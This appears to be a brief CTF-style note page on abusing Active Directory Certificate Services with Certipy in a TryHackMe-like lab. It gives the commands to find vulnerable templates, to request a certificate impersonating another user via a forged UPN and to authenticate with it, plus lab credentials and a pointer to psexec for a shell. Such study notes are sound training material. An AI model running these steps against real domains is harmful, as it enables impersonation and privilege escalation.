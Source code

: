 ```yaml
---
layout: page
title: AD_CS_(Active_Directory_Certificate_Services)
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


https://github.com/ly4k/Certipy
https://github.com/ly4k/Certipy/wiki/05-%E2%80%90-Usage


```bash
certipy-ad find -u 'SUSANNA_MCKNIGHT@local.thm' -p 'CHANGEME2023!' -dc-ip $target -vulnerable
```

![Pasted_image_20250811231216.png](/image/Pasted_image_20250811231216.png)


```bash
certipy-ad -debug req -dc-ip $target -username 'SUSANNA_MCKNIGHT' -password 'CHANGEME2023!' -ca 'thm-LABYRINTH-CA' -target 'labyrinth.thm.local' -template 'ServerAuth' -upn 'BRADLEY_ORTIZ@THM.LOCAL'
```


```bash
certipy-ad -debug auth -pfx 'bradley_ortiz.pfx' -dc-ip $target
```


get shell with psexec(wmiexec) next


https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation

